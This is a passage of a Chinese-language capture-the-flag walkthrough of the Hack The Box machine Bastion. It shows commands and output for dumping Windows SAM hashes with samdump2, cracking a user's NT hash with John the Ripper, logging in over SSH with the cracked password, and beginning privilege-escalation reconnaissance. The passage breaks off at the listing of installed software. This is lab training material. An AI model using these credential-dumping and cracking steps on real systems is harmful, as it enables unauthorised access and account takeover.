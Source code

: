 现在我们来到/mnt2/windows/Windows/System32/config目录,我们可以在里面发现一个 SAM 文件。安全帐户管理器（SAM）是 Windows 中用于存储用户密码的数据库文件。尝试访问 SAM 文件，使用samdump2命令打印出该系统内sam保存的哈希信息.

```
┌──(root kali)-[~/…/windows/Windows/System32/config]
└─# samdump2 SYSTEM SAM                                                                                                                                                                                                               127 ⨯
*disabled* Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
*disabled* Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::
```

截取` L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::`保存到本地`hash.txt`文件

## john破解

```
root@kali# john --format=NT hash.txt --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (NT [MD4 128/128 AVX 4x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
bureaulampje     (L4mpje)
1g 0:00:00:00 DONE (2021-12-23 02:57) 1.176g/s 11053Kp/s 11053Kc/s 11053KC/s buresres..burdy1
Use the "--show --format=NT" options to display all of the cracked passwords reliably
Session completed
```

得到一个登陆凭证：`L4mpje : bureaulampje`

容易我们就破解了这个哈希。而且据我们一开始获取的信息，这台靶机是开放了 ssh 服务的，所以我们尝试使用 L4mpje 作为用户名来登录。很幸运，我们进来了。

```
ssh L4mpje@10.10.10.134
Microsoft Windows [Version 10.0.14393]                                                                                          
(c) 2016 Microsoft Corporation. All rights reserved.                                                                                                                                                                           
l4mpje@BASTION C:\Users\L4mpje>whoami                                                                                           
bastion\l4mpje
```

# 提权

在使用 L4mpje 用户登录成功后，我们发现我们的权限很有限。一般提权可以**利用某些软件的漏洞**来完成。所以，探测这个靶机安装了哪些软件很有意义。

```
PS C:\Program Files (x86)> dir
    Directory: C:\Program Files (x86)
Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        16-7-2016     15:23                Common Files
d-----        23-2-2019     09:38                Internet Explorer
d-----        16-7-2016     15:23                Microsoft.NET
da----        22-2-2019     14:01                mRemoteNG
d-----        23-2-2019     10:22                Windows Defender
d-----        23-2-2019     09:38                Windows Mail
d-----        23-2-2019     10:22                Windows Media Player
d-----        16-7-2016     15:23                Windows Multimedia Platform
d-----        16-7-2016     15:23                Windows NT
d-----        23-2-2019     10:22                Windows Photo Viewer
d-----        16-7-2016     15:23                Windows Portable Devices
d-----        16-7-2016     15:23                WindowsPowerShell
```